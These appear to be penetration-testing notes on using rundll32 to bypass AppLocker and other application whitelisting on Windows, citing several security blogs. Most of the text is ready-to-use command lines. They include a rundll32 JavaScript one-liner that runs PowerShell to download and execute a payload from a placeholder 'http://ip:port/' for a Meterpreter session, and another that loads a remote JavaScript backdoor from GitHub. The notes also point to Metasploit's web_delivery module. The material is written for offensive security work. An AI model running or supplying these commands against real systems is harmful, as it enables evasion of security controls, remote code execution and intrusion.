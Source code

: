 https://www.cybereason.com/blog/rundll32-the-infamous-proxy-for-executing-malicious-code 
## AppLocker bypass
### About
Rundll32 is a Microsoft binary that can execute code that is inside a DLL file. Since this utility is part of the Windows operating system it can be used as a method in order to bypass AppLocker rules or Software Restriction Policies. So if the environment is not properly lockdown and users are permitted to use this binary then they can write their own DLL’s and bypass any restrictions or execute malicious JavaScript code.

The Metasploit module web delivery can quickly create a webserver that will serve a specific payload (Python, PHP or PowerShell). In this case the payload will be PowerShell.

```
exploit/multi/script/web_delivery
```
If the command prompt is locked then the method that is described below can be used to unlock the cmd.
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"
```
Rundll32 will execute the arbitrary code and it will return a Meterpreter session. The main benefit of this is that since it will not touch the disk the AppLocker rule will bypassed.

https://pentestlab.blog/tag/rundll32/

I often hear that AppLocker is not very safe and it is easy to bypass.
Since I really like AppLocker and I recommend it to customers, I decided to do this blogpost series and go over the different bypasses

https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
### Commands: 
These are commands used to bypass Applocker. 
```
rundll32 shell32.dll,Control_RunDLL payload.dll
```
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication <HTML Code>
```
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"
```
```
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")
```
Note that Defender must be turned off. It will be triggered by JacaScript. 
